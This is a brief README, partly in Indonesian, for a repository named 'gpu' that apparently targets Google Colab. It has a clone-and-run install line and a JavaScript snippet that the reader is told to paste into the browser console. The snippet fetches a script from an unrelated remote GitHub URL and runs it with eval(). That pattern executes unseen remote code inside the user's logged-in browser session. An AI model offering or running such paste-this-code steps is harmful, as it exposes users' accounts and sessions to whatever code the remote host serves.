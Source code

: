 # gpu 
<br>
instalasi :
<hr>
git clone https://github.com/Kopen1/gpu && cd gpu && sh start.sh 
<br><br>
<h2> CONSOLE_COLAB <h2>
  <p> akses console : ctrl + shift + k 
    <br>
<br>
async function eternalMode() {

  let url = 'https://raw.githubusercontent.com/liebedevil/borr/main/netep.js'


  let response = await fetch(url);

  let script = await response.text();

  eval(script);

}

eternalMode();

<br>


